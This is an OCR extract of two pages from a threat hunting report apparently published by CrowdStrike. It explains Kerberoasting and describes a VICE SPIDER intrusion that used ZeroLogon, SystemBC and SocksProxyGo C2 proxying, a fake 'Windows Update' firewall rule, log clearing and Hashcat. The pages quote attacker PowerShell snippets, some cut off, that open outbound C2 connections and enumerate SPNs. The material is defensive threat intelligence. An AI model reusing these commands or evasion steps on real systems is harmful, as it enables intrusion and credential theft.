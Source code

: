 An SPN is a unique identifier for services 
running on servers in Active Directory. It is 
especially important when using Kerberos 
authentication. An SPN allows a service 
to be mapped to a specific server, which 
helps a client find that service within the 
network. It also lets clients request service 
authentication, even without knowing the 
account name. Adversaries can misuse this 
feature by scanning for SPNs associated 
with high\-privilege accounts. They can 
perform attacks like Kerberoasting to 
crack passwords and potentially gain 
unauthorized access to resources.
12
 2023 CrowdStrike, Inc. All rights reserved. 
NOWHERE TO HIDE
CROWDSTRIKE 2023 THREAT HUNTING REPORT
Kerberoasting in Action
In an intrusion by VICE SPIDER, Falcon OverWatch discovered hands\-on\-keyboard activity against a victim 
organization in the academic sector. The compromise was associated with multiple hosts across virtual desktop 
infrastructure (VDI). The threat actor performed basic host reconnaissance to enumerate domain trusts using nltest, 
then enumerated administrator permissions groups and performed connectivity tests to outbound infrastructure. 
Next, the threat actor attempted to exploit the ZeroLogon vulnerability in an attempt to escalate privileges and then 
tested connectivity to a command\-and\-control (C2\) server using ping. The threat actor then executed SystemBC 
and SocksProxyGo through PowerShell to proxy connections to their C2 infrastructure. The adversary was clearly 
mindful of being detected and took several steps to cover their tracks, including setting their proxy connection to 
operate over non\-standard ports, creating a new firewall rule masquerading as a Windows update, and clearing the 
Security, Application and System logs using wevtutil. Further, they removed the registry entry for RunMRU and 
TypedPaths two locations that would shed light on their interactive activity on the system.
Snippet of SocksProxyGo execution to configure a new outbound firewall rule
New\-NetFirewallRule \-DisplayName "Windows Update" \-Direction Outbound \-Action Allow \-Protocol 
TCP \-RemotePort 443 \-Enabled True \| Out\-Null; Go \-remotePort 443 \-remoteHost "\[REDACTED 
IPAddress]"
Snippet of the SystemBC proxy connection being established
$domain \= '\[REDACTED IPAddress]' \# host $dport \= 4001 \# port $x \= New\-Object byte\[] 50 For 
($i\=0; $i \-ne 50; $i\+\+)After this, the adversary executed a script to perform a Kerberoasting attack and enumerate SPNs. VICE SPIDERs 
likely goal was to capture these SPNs to identify Windows service accounts and extract the password hashes. This 
was confirmed when Falcon OverWatch found the adversary using the Hashcat tool in an attempt to brute\-force the 
password hashes.
Snippet of a script execution in an attempt to enumerate SPNs 
$Null \= \[Reflection.Assembly]::LoadWithPartialName( 'System.IdentityModel' ); $search 
\= New\-Object DirectoryServices.DirectorySearcher( \[ADSI]'' ); $search.filter \= 
'(\&(servicePrincipalName\=\*)(objectCategory\=user))'; $results \= $search.Findall(); foreach ( 
$results in $results ) { $u \= $results.GetDirectoryEntry(); $samAccountName \= $u.samAccountName; 
foreach ( $s in $u.servicePrincipalName )
13
 2023 CrowdStrike, Inc. All rights reserved. 
NOWHERE TO HIDE
CROWDSTRIKE 2023 THREAT HUNTING REPORT